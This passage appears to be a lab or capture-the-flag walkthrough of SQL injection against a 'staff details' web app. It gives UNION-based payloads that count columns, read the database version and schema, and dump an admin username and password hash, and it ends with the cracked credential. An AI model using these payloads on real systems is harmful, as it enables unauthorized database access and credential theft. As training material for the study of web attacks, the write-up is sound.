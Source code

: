 ### 2. Enumerate website
The website is a "staff details" web app that allows you to search for staff in a database. This screams SQL injection right off the bat. Searching for `Scott' or 1=1-- ` returns all the records. That's a good sign.

### 3. Exploit SQL Injection
Firstly obtain the number of columns by taking the first query and using `order by` to test the existance of a column number. Enumerating upwards from 1,2,3 etc, `Scott' or 1=1 order by 6;-- ` is the last query that returns results. So there are 6 columns in this table.
  
Next, verify this column number by adding in a union with all nulls: `test' union select null, null, null, null, null, null;-- `.
This returns an entry with nothing in it.
```
ID:
Name:
Position:
Phone No:
Email: 
```

Identify some string datatyped columns with `test' union select @@version, @@version, null, null, null, null;-- `. This returns more good news.
```
ID: 10.3.17-MariaDB-0+deb10u1
Name: 10.3.17-MariaDB-0+deb10u1
Position:
Phone No:
Email: 
```

To enumerate database columns now, look at the information schema by injecting a query to return the columns in the current database. This is done with `test' union select table_name, column_name, null, null, null, null from information_schema.columns;-- `. It returns a lot of output.
```
...
ID: Users
Name: UserID
Position:
Phone No:
Email:

ID: Users
Name: Username
Position:
Phone No:
Email:

ID: Users
Name: Password
Position:
Phone No:
Email:
...

```
This looks what we want to get. Retrieve the contents with `test' union select concat(Username, ':', Password), null, null, null, null, null from Users;-- `. One result comes back.
```
ID: admin:856f5de590ef37314e7c3bdf6f8a66dc
Name:
Position:
Phone No:
Email: 
```
The password cracks, and a set of creds is retrieved: `admin:transorbital1`